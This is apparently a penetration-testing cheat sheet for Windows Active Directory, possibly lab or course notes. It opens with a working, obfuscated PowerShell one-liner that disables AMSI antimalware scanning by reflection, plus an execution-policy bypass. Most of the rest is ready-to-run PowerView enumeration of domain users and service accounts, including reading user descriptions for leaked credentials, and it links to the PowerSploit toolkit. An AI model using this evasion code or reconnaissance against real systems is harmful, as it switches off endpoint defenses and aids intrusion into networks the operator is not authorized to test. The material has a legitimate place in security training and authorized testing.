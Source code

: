 # AMSI Bypass
To bypass AMSI (Antimalware Scan Interface):
powershell

```powershell -ep bypass```
```SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    
(GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

# PowerView Module Usage

## Get a List of Users in the Current Domain
To get a list of all users:
```powershell
Get-DomainUser
```
To focus on a specific user (e.g., `student1`):
```powershell
Get-DomainUser -Name student1
```

## Find User Accounts Used as Service Accounts
```powershell
Get-DomainUser -SPN
```

## Get List of All Properties for Users in the Current Domain
To get various user properties:
```powershell
Get-DomainUser –Properties pwdlastset
Get-DomainUser –Properties badpwdcount
Get-DomainUser –Properties lastlogon
Get-DomainUser –Properties description
Get-DomainUser -Properties samaccountname,description
Get-DomainUser -Properties samaccountname,description,mumberof
```

## Filter Users by Account Status
To get all enabled users (returning distinguished names):
```powershell
Get-DomainUser -UACFilter NOT_ACCOUNTDISABLE -Properties distinguishedname
```

To get all disabled users:
```powershell
Get-DomainUser -UACFilter ACCOUNTDISABLE
```

## Quick Win
To get the description property for all users:
```powershell
Get-DomainUser –Properties description
```

# Download PowerView
You can download the PowerView script from the following link:
[PowerView Script - GitHub](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
```
